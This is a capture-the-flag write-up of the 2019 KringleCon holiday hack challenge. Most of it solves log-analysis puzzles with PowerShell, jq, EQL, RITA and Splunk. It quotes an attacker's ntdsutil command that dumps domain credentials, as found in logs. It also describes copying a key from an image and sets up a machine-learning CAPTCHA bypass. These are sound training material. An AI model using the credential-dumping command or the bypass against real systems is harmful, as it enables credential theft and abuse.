PS /home/elf> Stop-Process -id 23
PS /home/elf> Stop-Process -id 26
PS /home/elf> Stop-Process -id 27
PS /home/elf> Stop-Process -id 29
PS /home/elf> Get-Process -IncludeUserName

     WS(M)   CPU(s)      Id UserName                       ProcessName
     -----   ------      -- --------                       -----------
     27.26     2.41       6 root                           CheerLaserServi
    158.05    33.87      31 elf                            elf
      3.37     0.03       1 root                           init
      3.49     0.00      30 root                           su

PS /home/elf> type /shall/see
Get the .xml children of /etc - an event log to be found. Group all .Id's and the last thing will be in the Properties of the lonely unique event Id.
```

Still no additional settings, but more instructions to follow!
We need to list all the event id's in the file, count them, sort them and figure out which event only appears once:

```
PS /tmp/out/refraction> gci -R /etc -include *.xml -ErrorAction 'SilentlyContinue'


    Directory: /etc/systemd/system/timers.target.wants

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
--r---          11/18/19  7:53 PM       10006962 EventLog.xml

PS /home/elf> type /etc/systemd/system/timers.target.wants/EventLog.xml | Select-String -Pattern '<I32 N="id"' | Group-Object | Select-Object -Property Count, Name | Sort-Object -Property Count -Descending

Count Name
----- ----
  905       <I32 N="Id">5</I32>
  179       <I32 N="Id">3</I32>
   98       <I32 N="Id">6</I32>
   39       <I32 N="Id">2</I32>
    2       <I32 N="Id">4</I32>
    1       <I32 N="Id">1</I32>
```

We see that event with id '1' only appears one time. We now display the text around this event:


```
PS /home/elf> type /etc/systemd/system/timers.target.wants/EventLog.xml | Select-String -Pattern '<I32 N="id">1' -Context 20,200

<-- Output removed for brevity -->
        <T>System.Diagnostics.Eventing.Reader.EventLogRecord</T>
        <T>System.Diagnostics.Eventing.Reader.EventRecord</T>
        <T>System.Object</T>
      </TN>
      <ToString>System.Diagnostics.Eventing.Reader.EventLogRecord</ToString>
      <Props>
>       <I32 N="Id">1</I32>
        <By N="Version">5</By>
        <Nil N="Qualifiers" />

<-- Output removed for brevity -->

            <Obj RefId="18016">
              <TNRef RefId="1806" />
              <ToString>System.Diagnostics.Eventing.Reader.EventProperty</ToString>
              <Props>
                <S N="Value">C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -c "`$correct_gases_postbody = @{`n    O=6`n    H=7`n    He=3`n    N=4`n    Ne=22`n    Ar=11`n    
Xe=10`n    F=20`n    Kr=8`n    Rn=9`n}`n"</S>
              </Props>
            </Obj>

<-- Output removed for brevity -->

```

We find here the post body for the correct gases.
```
$correct_gases_postbody = @{`n    O=6`n    H=7`n    He=3`n    N=4`n    Ne=22`n    Ar=11`n    Xe=10`n    F=20`n    Kr=8`n    Rn=9`n}
```


Final Values:

- angle?val=65.5
- refraction?val=1.867
- temperature?val=-33.5
- Gasses:
  - O=6
  - H=7
  - He=3
  - N=4
  - Ne=22
  - Ar=11
  - Xe=10
  - F=20
  - Kr=8
  - Rn=9

So we can now submit these values to the laser:

```
PS /home/elf> (Invoke-WebRequest -Uri http://localhost:1225/api/off).RawContent
PS /home/elf> (Invoke-WebRequest -Uri http://localhost:1225/api/refraction?val=1.867).RawContent
PS /home/elf> (Invoke-WebRequest -Uri http://localhost:1225/api/temperature?val=-33.5).RawContent
PS /home/elf> (Invoke-WebRequest -Uri http://localhost:1225/api/angle?val=65.5).RawContent
PS /home/elf> $postParams = @{O=6;H=7;He=3;N=4;Ne=22;Ar=11;Xe=10;F=20;Kr=8;Rn=9;}
PS /home/elf> (Invoke-WebRequest -Uri http://localhost:1225/api/gas -Method POST -Body $postParams).RawContent
PS /home/elf> (Invoke-WebRequest -Uri http://localhost:1225/api/on).RawContent
PS /home/elf> (Invoke-WebRequest -Uri http://localhost:1225/api/output).RawContent
```

And we are done.


-----------------------------
### Zeek JSON Analysis
#### Context
Initial Dialog:
Wunorse Openslae
> I'm pretty sure one of these connections is a malicious C2 channel...
> Do you think you could take a look?
> I hear a lot of C2 channels have very long connection times.
> Please use `jq` to find the longest connection in this data set.
> We have to kick out any and all grinchy activity!


Completed Dialog:
Wunorse Openslae
> That's got to be the one - thanks!
> Hey, you know what? We've got a crisis here.
> You see, Santa's flight route is planned by a complex set of machine learning algorithms which use available weather data.
> All the weather stations are reporting severe weather to Santa's Sleigh. I think someone might be forging intentionally false weather data!
> I'm so flummoxed I can't even remember how to login!
> Hmm... Maybe the Zeek http.log could help us.
> I worry about LFI, XSS, and SQLi in the Zeek log - oh my!
> And I'd be shocked if there weren't some shell stuff in there too.
> I'll bet if you pick through, you can find some naughty data from naughty hosts and block it in the firewall.
> If you find a log entry that definitely looks bad, try pivoting off other unusual attributes in that entry to find more bad IPs.
> The sleigh's machine learning device (SRF) needs most of the malicious IPs blocked in order to calculate a good route.
> Try not to block many legitimate weather station IPs as that could also cause route calculation failure.
> Remember, when looking at JSON data, `jq` is the tool for you!


Challenge-url:  
[https://docker2019.kringlecon.com/?challenge=jq](https://docker2019.kringlecon.com/?challenge=jq)


Location:  
sleighshop (Sleigh Workshop)

#### MOTD
When we start the terminal, we are greeted with the following message:
```
Some JSON files can get quite busy.
There's lots to see and do.
Does C&C lurk in our data?
JQ's the tool for you!

-Wunorse Openslae

Identify the destination IP address with the longest connection duration
using the supplied Zeek logfile. Run runtoanswer to submit your answer.
```

#### Solution
We start by having a look at the type of data we are dealing with:
```
cat conn.log | jq
```

We see that most entries have a `duration` field.
We can try to sort on that field as a numeric value.

```
elf@51570ada4eb2:~$ cat conn.log | jq ".duration" | sort -g | uniq | tail -n 1
1019365.337758
```

Now we can check what connection that IP belongs to.

```
elf@51570ada4eb2:~$ cat conn.log | jq ". | select (.duration == 1019365.337758)"
{
  "ts": "2019-04-18T21:27:45.402479Z",
  "uid": "CmYAZn10sInxVD5WWd",
  "id.orig_h": "192.168.52.132",
  "id.orig_p": 8,
  "id.resp_h": "13.107.21.200",
  "id.resp_p": 0,
  "proto": "icmp",
  "duration": 1019365.337758,
  "orig_bytes": 30781920,
  "resp_bytes": 30382240,
  "conn_state": "OTH",
  "missed_bytes": 0,
  "orig_pkts": 961935,
  "orig_ip_bytes": 57716100,
  "resp_pkts": 949445,
  "resp_ip_bytes": 56966700
}
```

Great, we see the destination IP of `13.107.21.200`. We can now submit this to the `runtoanswer` tool

```
elf@51570ada4eb2:~$ runtoanswer 
Loading, please wait......


What is the destination IP address with the longes connection duration? 13.107.21.200


Thank you for your analysis, you are spot-on.
I would have been working on that until the early dawn.
Now that you know the features of jq,
You'll be able to answer other challenges too.

-Wunorse Openslae

Congratulations!
```

That's it. We are done.


-----------------------------
## Objectives
Clearing out the terminals has given us all the possible hints we could need for doing the objectives.
The objectives are narative based challenges for this game, they will progress us through the Kringlecon 2 story and help us save the holiday cheer.
Lets get started!

### Talk to Santa in the Quad
#### Context
Objective:
> Enter the campus quad and talk to Santa.


#### Solution
Just talk to santa. He's right there in the quad!


-----------------------------
### Find the Turtle Doves
#### Context
Objective:
> Find the missing turtle doves.


#### Solution
In the student union (Above the Quad) are two doves on a small ledge in the middle of the room.
They are next to the fireplace.
Click on them to complete the challenge


-----------------------------
### Unredact Threatening Document
#### Context
Objective:
> Someone sent a threatening letter to Elf University.
> What is the first word in ALL CAPS in the subject line of the letter? Please find the letter in the Quad.

#### Solution
Obtained by clicking on the letter on the ground in the top-left corner of Elf U quad.


We obtain the following file:

[LetterToElfUPersonnel.pdf](relevant_files/LetterToElfUPersonnel.pdf)

Just copy paste the text below the confidential boxes into a text file

Full letter text:
```
Date: February 28, 2019

To the Administration, Faculty, and Staff of Elf University 17 Christmas Tree Lane North Pole
From: A Concerned and Aggrieved Character
Subject: DEMAND: Spread Holiday Cheer to Other Holidays and Mythical Characters... OR ELSE!

Attention All Elf University Personnel,

It remains a constant source of frustration that Elf University and the entire operation at the North Pole focuses exclusively on Mr. S. Claus and his year-end holiday spree.
We URGE you to consider lending your considerable resources and expertise in providing merriment, cheer, toys, candy, and much more to other holidays year-round, as well as to other mythical characters.
For centuries, we have expressed our frustration at your lack of willingness to spread your cheer beyond the inaptly-called “Holiday Season.”

There are many other perfectly fine holidays and mythical characters that need your direct support year-round.

If you do not accede to our demands, we will be forced to take matters into our own hands.
We do not make this threat lightly.
You have less than six months to act demonstrably.

Sincerely,
--A Concerned and Aggrieved Character
```

#### Code
The challenge code is `DEMAND`


-----------------------------
### Windows Log Analysis: Evaluate Attack Outcome
#### Context
Objective
> We're seeing attacks against the Elf U domain!
> Using the event log data, identify the user account that the attacker compromised using a password spray attack.
> Bushy Evergreen is hanging out in the train station and may be able to help you out.


Hint:
Bushy Evergreen
> Wow, that was much easier than I'd thought.
> Maybe I don't need a clunky GUI after all!
> Have you taken a look at the password spray attack artifacts?
> I'll bet that DeepBlueCLI tool is helpful.
> You can check it out on GitHub.
> It was written by that Eric Conrad.
> He lives in Maine - not too far from here!


Event data log:  
[https://downloads.elfu.org/Security.evtx.zip](https://downloads.elfu.org/Security.evtx.zip)


DeepBlueCLI tool:  
[https://github.com/sans-blue-team/DeepBlueCLI](https://github.com/sans-blue-team/DeepBlueCLI)


#### Solution
##### Manual Solution
We can find it pretty easily by looking at the windows event logs manually.
1. We filter for eventid 4625 and 4624 (login failed and login success).
2. Sort by date and time.
3. Find 4624. That's it.

#### DeepBlueCLI solution
We can run the tool as follows:

```
C:\Users\cmdo\Desktop\test\DeepBlueCLI > .\DeepBlue.ps1 ..\Security.evtx
```

This will output a significant amount of data and show us that there has been a password spay attempt for the following usernames:
```
Target Usernames: ygoldentrifle esparklesleigh hevergreen Administrator sgreenbells cjinglebuns
          tcandybaubles bbrandyleaves bevergreen lstripyleaves gchocolatewine ltrufflefig wopenslae mstripysleigh
          pbrandyberry civysparkles sscarletpie ftwinklestockings cstripyfluff gcandyfluff smullingfluff hcandysnaps
          mbrandybells twinterfig supatree civypears ygreenpie ftinseltoes smary ttinselbubbles dsparkleleaves
```
All of them taking place on 19/11/2019 around 13:22.
We can then just open the event log and find a successful login (4624) around this time.

We determine that user `supatree` has been compromised

#### Code
The challenge code is `supatree`


-----------------------------
### Windows Log Analysis: Determine Attacker Technique
#### Context
Objective
> Using these normalized Sysmon logs, identify the tool the attacker used to retrieve domain password hashes from the lsass.exe process.
> For hints on achieving this objective, please visit Hermey Hall and talk with SugarPlum Mary.


Hint:
SugarPlum Mary
> Oh there they are!  Now I can delete them.  Thanks!
> Have you tried the Sysmon and EQL challenge?
> If you aren't familiar with Sysmon, Carlos Perez has some great info about it.
> Haven't heard of the Event Query Language?
> Check out some of [Ross Wolf](https://www.endgame.com/our-experts/ross-wolf)'s work on EQL or that blog post by Josh Wright in your badge.


Sysmon logs:  
[https://downloads.elfu.org/sysmon-data.json.zip](https://downloads.elfu.org/sysmon-data.json.zip)


Josh Wright blog post:  
[https://pen-testing.sans.org/blog/2019/12/10/eql-threat-hunting/](https://pen-testing.sans.org/blog/2019/12/10/eql-threat-hunting/)


#### Solution
We can use EQL to search the json data.
We search for lsass processes:

```
root@pv-kali:~/Desktop/logs# eql query -f sysmon-data.json "process where command_line = '*lsass*'" | jq
root@pv-kali:~/Desktop/logs# eql query -f sysmon-data.json "process where process_name = '*lsass*'" | jq
root@pv-kali:~/Desktop/logs# eql query -f sysmon-data.json "process where parent_process_name = '*lsass*'" | jq
{
  "command_line": "C:\\Windows\\system32\\cmd.exe",
  "event_type": "process",
  "logon_id": 999,
  "parent_process_name": "lsass.exe",
  "parent_process_path": "C:\\Windows\\System32\\lsass.exe",
  "pid": 3440,
  "ppid": 632,
  "process_name": "cmd.exe",
  "process_path": "C:\\Windows\\System32\\cmd.exe",
  "subtype": "create",
  "timestamp": 132186398356220000,
  "unique_pid": "{7431d376-dedb-5dd3-0000-001027be4f00}",
  "unique_ppid": "{7431d376-cd7f-5dd3-0000-001013920000}",
  "user": "NT AUTHORITY\\SYSTEM",
  "user_domain": "NT AUTHORITY",
  "user_name": "SYSTEM"
}
```

We see only one time that lsass.exe has been run.
We can now search for the user (999) and limit the time to a few seconds around this event.


The found timestamp converts to:  
`GMT: Tuesday, November 19, 2019 12:23:55 PM`


We will search from
`GMT: Tuesday, November 19, 2019 12:23:50 PM (132186398300000000)`
to
`GMT: Tuesday, November 19, 2019 12:25:00 PM (132186399000000000)`

```
root@pv-kali:~/Desktop/logs# eql query -f sysmon-data.json "process where logon_id = 999 and timestamp > 132186398300000000 and timestamp < 132186399000000000" | jq
{
  "command_line": "C:\\Windows\\system32\\cmd.exe",
  "event_type": "process",
  "logon_id": 999,
  "parent_process_name": "lsass.exe",
  "parent_process_path": "C:\\Windows\\System32\\lsass.exe",
  "pid": 3440,
  "ppid": 632,
  "process_name": "cmd.exe",
  "process_path": "C:\\Windows\\System32\\cmd.exe",
  "subtype": "create",
  "timestamp": 132186398356220000,
  "unique_pid": "{7431d376-dedb-5dd3-0000-001027be4f00}",
  "unique_ppid": "{7431d376-cd7f-5dd3-0000-001013920000}",
  "user": "NT AUTHORITY\\SYSTEM",
  "user_domain": "NT AUTHORITY",
  "user_name": "SYSTEM"
}
{
  "command_line": "ntdsutil.exe  \"ac i ntds\" ifm \"create full c:\\hive\" q q",
  "event_type": "process",
  "logon_id": 999,
  "parent_process_name": "cmd.exe",
  "parent_process_path": "C:\\Windows\\System32\\cmd.exe",
  "pid": 3556,
  "ppid": 3440,
  "process_name": "ntdsutil.exe",
  "process_path": "C:\\Windows\\System32\\ntdsutil.exe",
  "subtype": "create",
  "timestamp": 132186398470300000,
  "unique_pid": "{7431d376-dee7-5dd3-0000-0010f0c44f00}",
  "unique_ppid": "{7431d376-dedb-5dd3-0000-001027be4f00}",
  "user": "NT AUTHORITY\\SYSTEM",
  "user_domain": "NT AUTHORITY",
  "user_name": "SYSTEM"
}
```

We find that the ntdsutil tool was used to dump the credentials.


#### Code
The challenge code is `ntdsutil`


-----------------------------
### Network Log Analysis: Determine Compromised System
#### Context
Objective
> The attacks don't stop! Can you help identify the IP address of the malware-infected system using these Zeek logs?
> For hints on achieving this objective, please visit the Laboratory and talk with Sparkle Redberry.


Hint:
Sparkle Redberry
> You got it - three cheers for cheer!
> For objective 5, have you taken a look at our Zeek logs?
> Something's gone wrong.  But I hear someone named Rita can help us.
> Can you and she figure out what happened?


Zeek logs:  
[https://downloads.elfu.org/elfu-zeeklogs.zip](https://downloads.elfu.org/elfu-zeeklogs.zip)


Rita in this case refers to:  
[https://github.com/activecm/rita](https://github.com/activecm/rita)


#### Solution
The real difficulty of this challenge was honestly installing RITA in the first place.
Once that was done, getting the objective was relatively straightforward.
For anyone attempting this at home, just spin up a new ubuntu vm. Don't try to do this on Kali. You will waste a ton of time.

Following our own advice, we start by installing RITA on Ubuntu:

```
root@ubuntu-tmp:/home/polle/zeek# wget https://github.com/activecm/rita/releases/download/v3.1.1/install.sh
root@ubuntu-tmp:/home/polle/zeek# chmod +x install.sh
root@ubuntu-tmp:/home/polle/zeek# ./install.sh --disable-bro

 _ \ _ _| __ __|  \
   /   |     |   _ \
_|_\ ___|   _| _/  _\  v3.1.1

Brought to you by Active CounterMeasures

[-] In order to run the installer, several basic packages must be installed.
        [-] Updating packages... SUCCESS
        [-] Ensuring curl is installed... SUCCESS
        [-] Ensuring coreutils is installed... SUCCESS
        [-] Ensuring lsb-release is installed... SUCCESS
        [-] Ensuring yum-utils is installed... SUCCESS
[-] This installer will:
        [-] Install MongoDB
        [-] Install RITA to /usr/local/bin/rita
        [-] Create a runtime directory for RITA in /var/lib/rita
        [-] Create a configuration directory for RITA in /etc/rita
[-] Installing MongoDB... SUCCESS
[!] Starting MongoDB and enabling on startup.
Created symlink /etc/systemd/system/multi-user.target.wants/mongod.service → /lib/systemd/system/mongod.service.
[!] Starting MongoDB process completed.
[!] You can access the MongoDB shell with 'mongo'.
[!] If you need to stop MongoDB,
[!] run 'sudo systemctl stop mongod'.
[-] Installing RITA... SUCCESS
[!] To finish the installation, reload the system profile with
[!] 'source /etc/profile'.

 _ \ _ _| __ __|  \
   /   |     |   _ \
_|_\ ___|   _| _/  _\  v3.1.1

Brought to you by Active CounterMeasures

Thank you for installing RITA! Happy hunting!
```

Great, that worked smoothly on Ubuntu! Now lets import our log files into RITA.

```
root@ubuntu-tmp:/home/polle/zeek# rita import elfu-zeeklogs holidayhack

        [+] Importing [elfu-zeeklogs]:
        [-] Verifying log files have not been previously parsed into the target dataset ...
        [-] Parsing logs to: holidayhack ...
        [-] Parsing elfu-zeeklogs/conn.log-00001_20190823120021.log -> holidayhack
        [-] Parsing elfu-zeeklogs/conn.log-00002_20190823121227.log -> holidayhack
<< REDACTED FOR BREVITY >>
        [-] Parsing elfu-zeeklogs/ssl.log-00095_20190824090519.log -> holidayhack
        [-] Parsing elfu-zeeklogs/ssl.log-00096_20190824091651.log -> holidayhack
        [-] Host Analysis:            41993 / 41993  [==================] 100 %
        [-] Uconn Analysis:           115915 / 115915  [==================] 100 %
        [-] Exploded DNS Analysis:    47836 / 47836  [==================] 100 %
        [-] Hostname Analysis:        47836 / 47836  [==================] 100 %
        [-] Beacon Analysis:          115915 / 115915  [==================] 100 %
        [-] UserAgent Analysis:       6 / 6  [==================] 100 %
        [!] No certificate data to analyze
        [-] Updating blacklisted peers ...
        [-] Indexing log entries ...
        [-] Updating metadatabase ...
        [-] Done!
```

We give it the dataset name `holidayhack`. We wait until rita finishes parsing the logs.
Once that is done we can analyse them. We search for the beacons to try and find the infected machine.

```
root@ubuntu-tmp:/home/polle/zeek# rita show-beacons holidayhack -H | less -S
+-------+-----------------+-----------------+-------------+-------------+-----------
| SCORE |    SOURCE IP    | DESTINATION IP  | CONNECTIONS | AVG  BYTES  | INTVL RANG
+-------+-----------------+-----------------+-------------+-------------+-----------
| 0.998 | 192.168.134.130 | 144.202.46.214  |        7660 |        1156 |          1
| 0.847 | 192.168.134.131 | 150.254.186.145 |         684 |       13737 |        874
<< OUTPUT REDACTED FOR BREVITY >>

```

We find the first IP with a score of almost 1. The source IP is our flag

#### Solution 2
I actually realized during the writeup that the log archive contains a folder called ELFU.
This folder contains a webpage that hosts the RITA GUI and will allow us to see the parsed logs.

All we need to do to solve the challenge this way is double click on index.html and browse to the 'Beacons' page.
Here we immediately find the same output we found before:


#### Code
The challenge code is `192.168.134.130`


-----------------------------
### Splunk
#### Context
Objective
> Access https://splunk.elfu.org/ as elf with password elfsocks.
> What was the message for Kent that the adversary embedded in this attack? The SOC folks at that link will help you along!
> For hints on achieving this objective, please visit the Laboratory in Hermey Hall and talk with Prof. Banas.


Hint:
Professor Banas
> Hi, I'm Dr. Banas, professor of Cheerology at Elf University.
> This term, I'm teaching HOL 404: The Search for Holiday Cheer in Popular Culture, and I've had quite a shock!
> I was at home enjoying a nice cup of Gløgg when I had a call from Kent, one of my students who interns at the Elf U SOC.
> Kent said that my computer has been _hacking_ other computers on campus and that I needed to fix it ASAP!
> If I don't, he will have to report the incident to the boss of the SOC.
> Apparently, I can find out more information from this website [https://splunk.elfu.org/](https://splunk.elfu.org/) with the username: `elf` / Password: `elfsocks`.
> I don't know anything about computer security.  Can you please help me?


Url:  
[https://splunk.elfu.org/](https://splunk.elfu.org/)


#### Solution
Upon logging in with the provided credentials, we end up on a sort of chat interface for the ElfU SOC.
Here we get to talk with some of the Elves who will give us tips to complete the objectives.


The actual splunk interface can be accessed by clicking on the 'search' tab. There is also a 'File Archive' tab that contains files related to events captured by splunk.


We are given several challenges to complete using the search engine. Each new challenge is unlocked after completing the previous one.
Doing all the challenges is not required, you only need to complete the main challenge, which is:
> What was the message for Kent that the adversary embedded in this attack?

However we will go over all the challenges here and conclude with the main challenge. Lets get started!


##### Challenge 1
Objective:
> What is the short host name of Professor Banas' computer?

Solution:
> sweetums

Search:  
We start by just reading all the chats. We find the name of the host in the chat with '#ELFU SOC'
They say:
> Yep. And we have some system called 'sweetums' here on campus communicating with the same weird IP'


##### Challenge 2
Objective:
> What is the name of the sensitive file that was likely accessed and copied by the attacker?
> Please provide the fully qualified location of the file. (Example: C:\temp\report.pdf)

Solution:
> C:\Users\cbanas\Documents\Naughty_and_Nice_2019_draft.txt

Search:  
We get taught how to search for anything related to the user cbanas (`index=main cbanas`) and told to search instead for santa.
We search for:
```
index=main santa
```
We find that the very first result contains:
```
ParameterBinding(Format-List): name="InputObject"; value="C:\Users\cbanas\Documents\Naughty_and_Nice_2019_draft.txt:1:Carl, you know there's no one I trust more than you to help.  Can you have a look at t
his draft Naughty and Nice list for 2019 and let me know your thoughts? -Santa"
```


##### Challenge 3
Objective:
> What is the fully-qualified domain name(FQDN) of the command and control(C2) server? (Example: badguy.baddies.com)

Solution:
> 144.202.46.214.vultr.com

Search:  
We get told how to search sysmon logs, they also tell us to search for eventcode 3 (network) and for powershell:
```
index=main sourcetype=XmlWinEventLog:Microsoft-Windows-Sysmon/Operational powershell EventCode=3
```
We quickly find network connections to '144.202.46.214.vultr.com'
We can also just look at the 'interesting field' `DestinationHostame` at the left hand side of the interface


##### Challenge 4
Objective:
> What document is involved with launching the malicious PowerShell code?
> Please provide just the filename. (Example: results.txt)

Solution:
> 19th Century Holiday Cheer Assignment.docm

Search:  
We get told to search for all the powershell logs on the system:

```
index=main sourcetype="WinEventLog:Microsoft-Windows-Powershell/Operational"
```
We learn that we can order results by time by piping them to '| reverse'.
We then search for a 5 second time window from the oldest event.
```
index=main sourcetype=XmlWinEventLog:Microsoft-Windows-Sysmon/Operational (within the time window)
```
- 5864 (16E8) -> dead end
- 6268 (187C)



We can use those in the following search:
```
index=main sourcetype=WinEventLog EventCode=4688 process_id=0x187C
```
From here we find one log that contains a word process opening the file
```
Process Command Line: "C:\Program Files (x86)\Microsoft Office\Root\Office16\WINWORD.EXE" /n "C:\Windows\Temp\Temp1_Buttercups_HOL404_assignment (002).zip\19th Century Holiday Cheer Assignment.docm" /o ""
```

##### Challenge 5
Objective:
> How many unique email addresses were used to send Holiday Cheer essays to Professor Banas?
> Please provide the numeric value. (Example: 1)

Solution:
> 21

Search:  
We get told how to search through stoQ data:
```
index=main sourcetype=stoq | table _time results{}.workers.smtp.to results{}.workers.smtp.from  results{}.workers.smtp.subject results{}.workers.smtp.body | sort - _time
```
We also get told that all emails had to be with subject line: 'Holiday Cheer Assignment Submission'.

We narrow down our search to only the fields containing the subject line and emails going only to carl:
```
index=main sourcetype=stoq | table _time results{}.workers.smtp.to results{}.workers.smtp.from  results{}.workers.smtp.subject results{}.workers.smtp.body | search results{}.workers.smtp.subject="*Holiday
 Cheer Assignment Submission*" results{}.workers.smtp.to="*carl*"
```

We find 21 results.


##### Challenge 6
Objective:
> What was the password for the zip archive that contained the suspicious file?

Solution:
> 123456789

Search:  
We just search the email bodies for things containing the word "password"
```
index=main sourcetype=stoq | table _time results{}.workers.smtp.to results{}.workers.smtp.from  results{}.workers.smtp.subject results{}.workers.smtp.body | search results{}.workers.smtp.body="*password*"
```


##### Challenge 7
Objective:
> What email address did the suspicious file come from?

Solution:
> Bradly.Buttercups@eIfu.org

Search:  
From the previous challenge we immediately find this one.


##### Main Challenge
Objective:
> What was the message for Kent that the adversary embedded in this attack?

Solution:
> Kent you are so unfair. And we were going to make you the king of the Winter Carnival.

Search:  
We start with this email:
```
index=main sourcetype=stoq  "results{}.workers.smtp.from"="bradly buttercups <bradly.buttercups@eifu.org>"
```
We add the eval code givent to us to make the output more readable:
```
index=main sourcetype=stoq  "results{}.workers.smtp.from"="bradly buttercups <bradly.buttercups@eifu.org>" | eval results = spath(_raw, "results{}")
| mvexpand results
| eval path=spath(results, "archivers.filedir.path"), filename=spath(results, "payload_meta.extra_data.filename"), fullpath=path."/".filename
| search fullpath!=""
| table filename,fullpath
```
We find the .docm file:
```
3   19th Century Holiday Cheer Assignment.docm  /home/ubuntu/archive/c/6/e/1/7/c6e175f5b8048c771b3a3fac5f3295d2032524af/19th Century Holiday Cheer Assignment.docm
```
When we open this file, we find a message telling us to look in core.xml instead.
```
19  core.xml    /home/ubuntu/archive/f/f/1/e/a/ff1ea6f13be3faabd0da728f514deb7fe3577cc4/core.xml
```

In that file we find the message to Kent.


#### Code
The challenge code is `Kent you are so unfair. And we were going to make you the king of the Winter Carnival.`


-----------------------------
### Get Access To The Steam Tunnels
#### Context
Objective
> Gain access to the steam tunnels.
> Who took the turtle doves?
> Please tell us their first and last name.
> For hints on achieving this objective, please visit Minty's dorm room and talk with Minty Candy Cane.

Hint:
Minty Candycane
> You made it - congrats!
> Have you played with the key grinder in my room?  Check it out!
> It turns out: if you have a good image of a key, you can physically copy it.
> Maybe you'll see someone hopping around with a key here on campus.
> _Sometimes you can find it in the Network tab of the browser console._
> Deviant has a great talk on it at this year's Con.
> He even has a collection of key bitting templates for common vendors like Kwikset, Schlage, and Yale.


Challenge-url:  
[https://key.elfu.org?challenge=bitting-cutter](https://key.elfu.org?challenge=bitting-cutter)


Direct key generation:  
[https://key.elfu.org/backend/keys/SC4_preview/004000.png](https://key.elfu.org/backend/keys/SC4_preview/004000.png)


Submit key to lock:  
[https://thisisit.elfu.org/lock.php](https://thisisit.elfu.org/lock.php)


Location:  
Minty's Dorm Room


#### Solution
We see a man (Krampus) run away with a key attached to his pocket when we enter the room.
We can get a better image of the key (and Krampus) by watching our Network tab in firefox.

We notice that a bunch of images are being pulled when we enter the room (including the one of Krampus).
We see the image here.

URL: `2019.kringlecon.com/images/avatars/elves/krampus.png`


We can have a closer look at the key now and try to guess the bitting values.
Our first guess (just eyeballing the key) is the following:
```
122521
```

However, we can use any image editor to get a better idea of the key and then use the key bitting templates provided by Deviant.
By going over the templates from Deviant we quickly find the right template [here](https://github.com/deviantollam/decoding/blob/master/Key%20Decoding/Decoding%20-%20Schlage.png):

We are dealing with a 'Schlage' key.


We download the template and overlay it in Gimp to find the correct values.
We find that the correct value is 122520. Pretty close to what we expected from first glance.

We create the key and open the door.

After travelling through the tunnels, we find Krampus and learn that his full name is Krampus Hollyfeld and that he took the doves.

Krampus:
> Hello there!  I’m Krampus Hollyfeld.
> I maintain the steam tunnels underneath Elf U,
> Keeping all the elves warm and jolly.
> Though I spend my time in the tunnels and smoke,
> In this whole wide world, there's no happier bloke!
> Yes, I borrowed Santa’s turtle doves for just a bit.
> Someone left some scraps of paper near that fireplace, which is a big fire hazard.
> I sent the turtle doves to fetch the paper scraps.
> But, before I can tell you more, I need to know that I can trust you.
> Tell you what – if you can help me beat the [Frido Sleigh](https://fridosleigh.com/) contest (Objective 8), then I'll know I can trust you.
> The contest is here on my screen and at [fridosleigh.com](https://fridosleigh.com/).
> No purchase necessary, enter as often as you want, so I am!
> They set up the rules, and lately, I have come to realize that I have certain materialistic, cookie needs.
> Unfortunately, it's restricted to elves only, and I can't bypass the CAPTEHA.
> (That's Completely Automated Public Turing test to tell Elves and Humans Apart.)
> I've already cataloged [12,000 images](https://downloads.elfu.org/capteha_images.tar.gz) and decoded the [API interface](https://downloads.elfu.org/capteha_api.py).
> Can you help me bypass the CAPTEHA and submit lots of entries?


#### Code
The code for this challenge is `Krampus Hollyfeld`.


-----------------------------
### Bypassing the Frido Sleigh CAPTEHA
#### Context
Objective
> Help Krampus beat the Frido Sleigh contest.
> For hints on achieving this objective, please talk with Alabaster Snowball in the Speaker Unpreparedness Room.


Hint:
Krampus
> Hello there!  I’m Krampus Hollyfeld.
> I maintain the steam tunnels underneath Elf U,
> Keeping all the elves warm and jolly.
> Though I spend my time in the tunnels and smoke,
> In this whole wide world, there's no happier bloke!
> Yes, I borrowed Santa’s turtle doves for just a bit.
> Someone left some scraps of paper near that fireplace, which is a big fire hazard.
> I sent the turtle doves to fetch the paper scraps.
> But, before I can tell you more, I need to know that I can trust you.
> Tell you what – if you can help me beat the [Frido Sleigh](https://fridosleigh.com/) contest (Objective 8), then I'll know I can trust you.
> The contest is here on my screen and at [fridosleigh.com](https://fridosleigh.com/).
> No purchase necessary, enter as often as you want, so I am!
> They set up the rules, and lately, I have come to realize that I have certain materialistic, cookie needs.
> Unfortunately, it's restricted to elves only, and I can't bypass the CAPTEHA.
> (That's Completely Automated Public Turing test to tell Elves and Humans Apart.)
> I've already cataloged [12,000 images](https://downloads.elfu.org/capteha_images.tar.gz) and decoded the [API interface](https://downloads.elfu.org/capteha_api.py).
> Can you help me bypass the CAPTEHA and submit lots of entries?


Alabaster Snowball
> Who would do such a thing??  Well, it IS a good looking cat.
> Have you heard about the Frido Sleigh contest?
> There are some serious prizes up for grabs.
> The content is strictly for elves. Only elves can pass the CAPTEHA challenge required to enter.
> I heard there was a talk at KCII about using machine learning to defeat challenges like this.
> I don't think anything could ever beat an elf though!


API download:  
[https://downloads.elfu.org/capteha_api.py](https://downloads.elfu.org/capteha_api.py)


Images download:  
[https://downloads.elfu.org/capteha_images.tar.gz](https://downloads.elfu.org/capteha_images.tar.gz)


Relevant talk and demo:  
- [https://www.youtube.com/watch?v=jmVPLwjm_zs](https://www.youtube.com/watch?v=jmVPLwjm_zs)
- [https://github.com/chrisjd20/img_rec_tf_ml_demo](https://github.com/chrisjd20/img_rec_tf_ml_demo)


Location:  
Steam Tunnels


#### Solution
The solution is pretty much provided for us:
- We have the api script to submit the correct responses.
- We have the github script to train our machine learning model.

All we need to do is train the model and connect it to the api script.


Upon completing the challenge, you receive a personalized email with the objective code.
We submit that code to complete the objective.

We start by:
- Cloning the git repo
- Downloading the api script
- Downloading the images archive
- Unzipping the archive
```
polle@polle-pc:/tmp/solution $ git clone  https://github.com/chrisjd20/img_rec_tf_ml_demo
<-- Output removed for brevity -->
polle@polle-pc:/tmp/solution $ cd img_rec_tf_ml_demo/
<-- Output removed for brevity -->
polle@polle-pc:/tmp/solution/img_rec_tf_ml_demo $ wget https://downloads.elfu.org/capteha_api.py
<-- Output removed for brevity -->
polle@polle-pc:/tmp/solution/img_rec_tf_ml_demo $ wget https://downloads.elfu.org/capteha_images.tar.gz
<-- Output removed for brevity -->
polle@polle-pc:/tmp/solution/img_rec_tf_ml_demo $ rm training_images/* -r
